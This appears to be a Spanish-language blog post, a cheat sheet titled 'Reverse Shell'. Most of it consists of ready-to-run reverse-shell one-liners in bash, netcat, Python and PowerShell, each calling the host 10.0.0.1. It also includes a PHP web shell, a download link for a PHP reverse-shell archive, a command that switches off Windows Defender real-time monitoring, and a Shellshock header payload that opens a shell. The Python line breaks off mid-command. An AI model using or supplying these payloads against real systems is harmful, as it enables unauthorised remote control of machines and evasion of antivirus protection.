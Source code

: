```yaml
---
date: 2021-09-15T00:22:05.000Z
layout: post
comments: true
title: Reverse Shell
subtitle: 'y como obtener acceso'
description: >-
image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
optimized_image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
category: ciberseguridad
tags:
  - explotación
  - linux
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

# Ejemplos principales:
### Bash
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Python
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```
### Netcat
```bash
#Versiones actualizadas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ nc -e /bin/sh 10.0.0.1 1234

#Versiones más antiguas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

### PHP
En PHP se puede ingresar un archivo malicioso que devuelva una reverse shell.

>[Descarga archivo aquí](http://www.mediafire.com/file/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz/file)

Para testear ejecución remota de comandos:

```php
<?php system($_GET[‘ls’]);?>

## <?php system($_GET[‘cmd’]);?>
```


### PowerShell (cmd)

```
C:\Users\test> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Deshabilitar Antivirus

```powershell
PS C:\Users\test> Set-MpPreference -DisableRealtimeMonitoring $true
```

### Ejemplo de uso
En burpsuite se podría ocupar en ataques como Shellshock, por ejemplo:
```bash
#Se ocupa como base un proceso como este...
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
```bash
#Acá se adapta el proceso...
User Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
